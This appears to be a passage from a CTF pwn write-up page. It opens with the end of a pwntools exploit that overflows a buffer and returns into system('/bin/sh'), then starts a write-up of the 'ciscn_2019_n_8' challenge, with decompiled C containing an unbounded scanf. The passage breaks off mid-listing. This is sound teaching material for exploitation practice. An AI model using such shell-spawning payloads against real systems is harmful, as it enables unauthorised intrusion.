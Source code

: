 ```python
    elf = context.binary

    payload = flat(
        b"A" * 0x8C,
        elf.plt["system"],
        0x0,  # return address placeholder
        next(elf.search(b"/bin/sh")),
    )

    return payload


def main():
    target = launch()

    payload = construct_payload()

    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

# ciscn_2019_n_8

## Information

- Category: Pwn
- Points: 1

## Write-up

```c ins={11-14} del={10} collapse={18-40}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL )
      system("/bin/sh");
    else
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
```